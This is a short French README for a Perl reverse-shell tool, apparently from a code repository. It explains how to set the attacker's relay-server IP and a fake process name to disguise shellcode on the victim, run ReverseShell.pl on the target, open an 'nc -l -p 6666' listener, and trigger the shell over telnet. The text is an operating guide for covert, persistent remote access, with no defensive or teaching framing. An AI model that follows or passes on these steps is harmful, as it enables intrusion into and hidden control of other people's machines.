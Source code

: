 # Misc-Tools

1) Modifier la valeur des variables suivantes:                                          
  - $publicip --> contient l'ip publique de l'attaquant, à savoir celle du serveur rebond.
  - $fakeprocess --> n'importe quel processus identifié sur la cible afin de camoufler le shellcode.
  - $reverse_shell_port (6666) --> le port cible sur lequel se connecter pour piloter le shell, l'ouvrir ou le fermer.
  - $port (8700) --> Le port de la machine victime, sur lequel se connecter pour lançer l'activation du shellcode via la commande "shell".                                          
2) Le script ./ReverseShell.pl doit être exécuté sur le la cible afin de pouvoir maintenir l'accès sur la machine distante.       
3) Exécuter le listener sur votre machine: 'nc -l -p 6666' pour écouter la future connexion de la machine cible.          
4) Lancer la commande d'activation du revershell distant: 'telnet $ip_publique_machine $port' (à remplacer par le port défini dans   le script --> 8700 dans notre cas).

Enjoy!
